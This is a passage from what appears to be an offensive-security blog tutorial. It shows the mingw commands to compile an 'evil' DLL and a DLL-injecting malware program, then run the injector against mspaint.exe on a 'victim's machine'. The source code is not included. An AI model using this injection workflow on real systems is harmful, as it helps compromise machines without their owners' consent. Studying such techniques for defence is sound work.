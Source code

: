 ### demo 2

Let's go to see everything in action again.    

First of all, compile our "evil" DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![injection](/assets/images/83/2022-12-21_22-02.png){:class="img-responsive"}    

At the next step, compile our DLL injecting malware:    

```bash
x86_64-w64-mingw32-g++ -O2 hack2.cpp -o hack2.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -ldbghelp
```

![injection](/assets/images/83/2022-12-21_22-04.png){:class="img-responsive"}    

And finally, run it for `mspaint.exe` process on victim's machine (`Windows 10 x64` in my case):    

```powershell
.\hack2.exe <mspaint PID>
```
